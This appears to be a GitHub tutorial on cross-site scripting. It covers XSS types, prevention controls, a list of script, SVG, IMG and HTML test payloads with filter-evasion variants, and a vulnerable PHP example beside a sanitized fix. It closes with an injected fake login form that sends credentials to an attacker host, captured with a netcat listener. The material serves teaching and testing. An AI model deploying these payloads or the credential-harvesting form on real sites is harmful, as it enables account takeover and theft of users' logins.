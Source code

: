 # XSS---Basics
Basic overview of XSS

What is XSS (Cross Site Scripting)

Cross-site scripting (also known as XSS) is a web security vulnerability that allows an attacker to compromise the interactions that users have with a vulnerable application. It allows an attacker to circumvent the same origin policy, which is designed to segregate different websites from each other. Cross-site scripting vulnerabilities normally allow an attacker to masquerade as a victim user, to carry out any actions that the user is able to perform, and to access any of the user's data. If the victim user has privileged access within the application, then the attacker might be able to gain full control over all of the application's functionality and data. 

Types of XSS

- Reflected XSS         // where the malicious script comes from the current HTTP request.
- Stored XSS            // where the malicious script comes from the website's database.
- DOM-based XSS         // where the vulnerability exists in client-side code rather than server-side code.

What can XSS abused for:


- Impersonate or masquerade as the victim user.
- Carry out any action that the user is able to perform.
- Read any data that the user is able to access.
- Capture the user's login credentials.
- Perform virtual defacement of the web site.
- Inject trojan functionality into the web site.

Top XSS prevention controls:

- Filter and sanitize all user input and input boxes (Disallow specific characters etc..) - Use OWASP XSS Evasion sheet for proactive controls
- Enforce secure coding (SAST / DAST / RASP / IAST)
- Implement CSP (Content Secuirty Policy) - CSP controls where scripts can be sourced from (Only add authorized domains / partners)
- Implement WAF (Configured according to threat-centric controls)



Testing if webiste input boxes / search boxes are vulnerable to XSS

```
Basic Payloads 

<script>alert('XSS')</script>
<scr<script>ipt>alert('XSS')</scr<script>ipt>
"><script>alert('XSS')</script>
"><script>alert(String.fromCharCode(88,83,83))</script>

SVG Payloads

<svgonload=alert(1)>
<svg/onload=alert('XSS')>
<svg onload=alert(1)//
<svg/onload=alert(String.fromCharCode(88,83,83))>
<svg id=alert(1) onload=eval(id)>
"><svg/onload=alert(String.fromCharCode(88,83,83))>
"><svg/onload=alert(/XSS/)

IMG Payloads

<img src=x onerror=alert('XSS');>
<img src=x onerror=alert('XSS')//
<img src=x onerror=alert(String.fromCharCode(88,83,83));>
<img src=x oneonerrorrror=alert(String.fromCharCode(88,83,83));>
<img src=x:alert(alt) onerror=eval(src) alt=xss>
"><img src=x onerror=alert('XSS');>
"><img src=x onerror=alert(String.fromCharCode(88,83,83));>

HTML Payloads

<body onload=alert(/XSS/.source)>
<input autofocus onfocus=alert(1)>
<select autofocus onfocus=alert(1)>
<textarea autofocus onfocus=alert(1)>
<keygen autofocus onfocus=alert(1)>
<video/poster/onerror=alert(1)>
<video><source onerror="javascript:alert(1)">
<video src=_ onloadstart="alert(1)">
<details/open/ontoggle="alert`1`">
<audio src onloadstart=alert(1)>
<marquee onstart=alert(1)>


```
Unsecure PHP XSS Code Example

```

<?php

if (!isset($_GET['name'])) 

{
  echo "<h1>Hi! What's your name?</h1>";
  echo "<form action='' method='GET'>";
  echo "<input type='text' name='name'>";
  echo "</form>";

} else {
  header("X-XSS-Protection: 0");
  
  $name = $_GET['name'];  // No user input sanitization
  echo "<h1>Hi $name!</h1>";
}

```


Secure PHP XSS Code Example

```
<?php

if (!isset($_GET['name']))  // Accept user input 
{

  echo "<h1>Hi. What is your name?</h1>";
  echo "<form action='' method='GET'>";   // Create text box to accept user input from a GET request
  echo "<input type='text' name='name'>";
  echo "</form>";



} else {
  $name = htmlspecialchars($_GET['name']); // Function to sanatize HTML user input saved to the "name" paramater - Outputs user input as text
  echo "<h1>Hi $name!";
}


```

Basic PHP XSS HTML Injection Example

```
h3>Please login to proceed</h3> <form action=http://10.10.10.10:8080>Username:<br><input type="username" name="username"></br>Password:<br><input type="password" name="password"></br><br><input type="submit" value="Logon"></br>

// Inject the above command inside a vulnerable input field / box

Attacker: nc -lvnp 8080 // To capture credentials

```
